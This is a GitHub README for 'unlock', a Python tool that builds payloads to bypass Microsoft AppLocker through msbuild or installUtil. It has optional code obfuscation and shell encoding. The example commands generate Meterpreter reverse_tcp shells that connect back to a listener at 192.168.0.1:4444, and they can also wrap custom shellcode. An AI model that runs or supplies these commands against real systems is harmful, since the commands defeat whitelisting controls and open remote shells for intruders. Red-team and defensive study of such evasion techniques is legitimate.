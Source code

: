 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV]
               [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]
               [--method METHOD] [--enaobf] [--encshell ENCSHELL]
               [--custom CUSTOM] [--x64]

##Arguments:
--output FILENAME   Output file name without extension
--framework FWV      Framework NET version
--payload PAYLOAD    Payload in MSF syntax
--lhost LHOST        Local host for reverse shell
--lport LPORT        Local port for reverse shell
--method METHOD      Evasion method: msbuild or installUtil
--enaobf             Enable CS code obfuscation
--encshell ENCSHELL  Encode shell with: *date* or hostname
--custom CUSTOM      Custom binary payload (don't use with
                       --payload/--lhost/--lport
  --x64                set if your custom payload is x64

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
- python unlock.py --framework 4.0 --custom shellcode.bin --x64
